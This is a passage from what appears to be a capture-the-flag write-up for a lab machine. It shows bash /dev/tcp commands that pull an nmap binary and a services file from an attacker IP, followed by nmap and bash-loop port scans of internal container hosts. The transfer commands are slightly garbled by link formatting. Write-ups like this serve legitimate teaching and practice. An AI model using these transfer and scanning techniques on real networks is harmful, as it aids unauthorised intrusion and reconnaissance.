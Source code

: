 This is an easier way to transfer file.

And I got those files.

```bash
# bash -c "cat [ /dev/tcp/10.10.14.30/5555 ]( /dev/tcp/10.10.14.30/5555 ) nmap"
# bash -c "cat [ /dev/tcp/10.10.14.30/5555 ]( /dev/tcp/10.10.14.30/5555 ) services"
# cp services /etc/
```

I ran Nmap on those 2 IP's and got few port opened.

```bash
# ./nmap -p- -sT --min-rate 5000 172.19.0.2

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2020-08-19 07:42 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for reddish_composition_redis_1.reddish_composition_internal-network (172.19.0.2)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00018s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
6379/tcp open  unknown
MAC Address: 02:42:AC:13:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.31 seconds
# ./nmap -p- -sT --min-rate 5000 172.19.0.4

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2020-08-19 07:42 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for reddish_composition_www_1.reddish_composition_internal-network (172.19.0.4)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00021s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:13:00:04 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.17 seconds
```

### Port Scanning using Bash Script

```bash
# bash -c 'for p in $(seq 1 10000); do(echo test >/dev/tcp/172.19.0.2/$p && echo "$p open") 2>/dev/null; done'
6379 open
# bash -c 'for p in $(seq 1 10000); do(echo test >/dev/tcp/172.19.0.4/$p && echo "$p open") 2>/dev/null; done'
80 open
```

### Port Scanning using Metasploit
